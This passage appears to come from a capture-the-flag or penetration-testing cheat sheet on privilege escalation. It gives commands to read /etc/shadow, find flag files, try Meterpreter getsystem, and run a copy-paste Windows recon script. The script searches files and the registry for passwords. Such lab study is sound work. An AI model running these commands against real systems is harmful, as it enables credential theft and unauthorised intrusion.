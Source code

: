 - Collect root password\
cat /etc/shadow |grep root

- Find and display the proof.txt or flag.txt - LOOT!\
cat `find / -name proof.txt -print`

- Windows Privilege Escalation resource [http://www.fuzzysecurity.com/tutorials/16.html](http://www.fuzzysecurity.com/tutorials/16.html) 

- Metasploit Meterpreter Privilege Escalation Guide [https://www.offensive-security.com/metasploit-unleashed/privilege-escalation/](https://www.offensive-security.com/metasploit-unleashed/privilege-escalation/) 

- Try the obvious - Maybe the user is SYSTEM or is already part of the Administrator group:\
whoami\
net user "%username%"

- Try the getsystem command using meterpreter - rarely works but is worth a try.\
meterpreter > getsystem

- No File Upload Required Windows Privlege Escalation Basic Information Gathering (based on the fuzzy security tutorial and windows_privesc_check.py).\
Copy and paste the following contents into your remote Windows shell in Kali to generate a quick report:\
@echo --------- BASIC WINDOWS RECON --------- > report.txt\
timeout 1\
net config Workstation >> report.txt\
timeout 1\
systeminfo | findstr /B /C:"OS Name" /C:"OS Version" >> report.txt\
timeout 1\
hostname >> report.txt\
timeout 1\
net users >> report.txt\
timeout 1\
ipconfig /all >> report.txt\
timeout 1\
route print >> report.txt\
timeout 1\
arp -A >> report.txt\
timeout 1\
netstat -ano >> report.txt\
timeout 1\
netsh firewall show state >> report.txt\
timeout 1\
netsh firewall show config >> report.txt\
timeout 1\
schtasks /query /fo LIST /v >> report.txt\
timeout 1\
tasklist /SVC >> report.txt\
timeout 1\
net start >> report.txt\
timeout 1\
DRIVERQUERY >> report.txt\
timeout 1\
reg query HKLM\\SOFTWARE\\Policies\\Microsoft\\Windows\\Installer\\AlwaysInstallElevated >> report.txt\
timeout 1\
reg query HKCU\\SOFTWARE\\Policies\\Microsoft\\Windows\\Installer\\AlwaysInstallElevated >> report.txt\
timeout 1\
dir /s \*pass\* == \*cred\* == \*vnc\* == \*.config\* >> report.txt\
timeout 1\
findstr /si password \*.xml \*.ini \*.txt >> report.txt\
timeout 1\
reg query HKLM /f password /t REG_SZ /s >> report.txt\
timeout 1\